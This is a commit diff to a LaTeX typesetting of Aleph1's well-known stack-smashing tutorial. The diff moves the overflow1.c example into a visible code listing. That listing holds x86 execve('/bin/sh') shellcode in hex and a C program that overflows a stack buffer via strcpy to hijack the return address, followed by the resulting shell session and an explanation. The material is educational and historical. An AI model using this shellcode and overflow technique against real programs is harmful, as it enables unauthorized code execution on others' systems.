

Before and after one commit to descent/latex_doc, a LaTeX document (stack_smashing/stack_smashing.tex): part of page 34 of 34 before the commit and two parts of pages 34 and 35 of 35 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
relayout

```diff
--- a/stack_smashing/stack_smashing.tex
+++ b/stack_smashing/stack_smashing.tex
@@ -41,7 +41,7 @@
   pdfborder={0 0 0},% 链接无框
   pdftitle={stack smashing},
   pdfauthor={Aleph1},
-  pdfsubject={主题},
+  pdfsubject={stack smashing},
   pdfkeywords={stack},
   pdfcreator={应用程序},
   pdfproducer={PDF 制作程序},% 这个好像没起作用？
@@ -928,64 +929,51 @@ Lets try to pull all our pieces together. We have the shellcode. We know it must
 we'll use to overflow the buffer. We know we must point the return address back into the buffer. This example
 will demonstrate these points:
 
+%overflow1.c
+\begin{lstlisting}[caption=overflow1.c,basicstyle=\tiny]
+
+char shellcode[] =
+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
+"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
+"\x80\xe8\xdc\xff\xff\xff/bin/sh";
+
+char large_string[128];
+
+void main()
+{
+  char buffer[96];
+  int i;
+  long *long_ptr = (long *) large_string;
+
+  for (i = 0; i < 32; i++)
+    *(long_ptr + i) = (int) buffer;
+
+  for (i = 0; i < strlen(shellcode); i++)
+    large_string[i] = shellcode[i];
+
+  strcpy(buffer,large_string);
+}
+\end{lstlisting}
+
+\begin{verbatim}
+[aleph1]$ gcc -o exploit1 exploit1.c
+[aleph1]$ ./exploit1
+$ exit
+exit
+[aleph1]$
+\end{verbatim}
+
+What we have done above is filled the array \verb+large_string[]+ with the address of buffer[], which is where our code
+will be. Then we copy our shellcode into the beginning of the \verb+large_string+ string. strcpy() will then copy
+\verb+large_string+ onto buffer without doing any bounds checking, and wil l overflow the return address, overwriting it
+with the address where our code  is now located.  Once we reach the end of main and it tr ied to return it jumps to
+our code, and execs a shell. The problem we are faced when trying to overflow the buffer of another program is
+trying to figure out at what address the buffer (and thus our code) will be. The answer is that for every program
+the stack will start at the same addres s. Most programs do not push more than a few hundred or a few thousand
+bytes into the stack at any one time. Therefore by knowing where  the stack starts we can try to guess where  the
+buffer we are trying to overflow will be. Here is a little program that will print its stack pointer:
+
 \begin{comment}
-overflow1.c
-
-char shellcode[] =
-
-        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
-
-        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
-
-        "\x80\xe8\xdc\xff\xff\xff/bin/sh";
-
-char large_string[128];
-
-void main() {
-
-  char buffer[96];
-
-  int i;
-
-  long *long_ptr = (long *) large_string;
-
-  for (i = 0; i < 32; i++)
-
-    *(long_ptr + i) = (int) buffer;  for (i = 0; i < strlen(shellcode); i++)
-
-    large_string[i] = shellcode[i];
-
-  strcpy(buffer,large_string);
-
-}
-
-[aleph1]$ gcc -o exploit1 exploit1.c
-
-[aleph1]$ ./exploit1
-
-$ exit
-
-exit
-
-[aleph1]$
-
-What we have done above is filled the array large_string[] with the address of buffer[], which is where our code
-
-will be. Then we copy our shellcode into the beginning of the large_string string. strcpy() will then copy
-
-large_string onto buffer without doing any bounds checking, and wil l overflow the return address, overwriting it
-
-with the address where our code  is now located.  Once we reach the end of main and it tr ied to return it jumps to
-
-our code, and execs a shell. The problem we are faced when trying to overflow the buffer of another program is
-
-trying to figure out at what address the buffer (and thus our code) will be. The answer is that for every program
-
-the stack will start at the same addres s. Most programs do not push more than a few hundred or a few thousand
-
-bytes into the stack at any one time. Therefore by knowing where  the stack starts we can try to guess where  the
-
-buffer we are trying to overflow will be. Here is a little program that will print its stack pointer:
 
 sp.c
 
```
Also changed, not shown: stack_smashing/stack_smashing.tex (5 more changed lines).
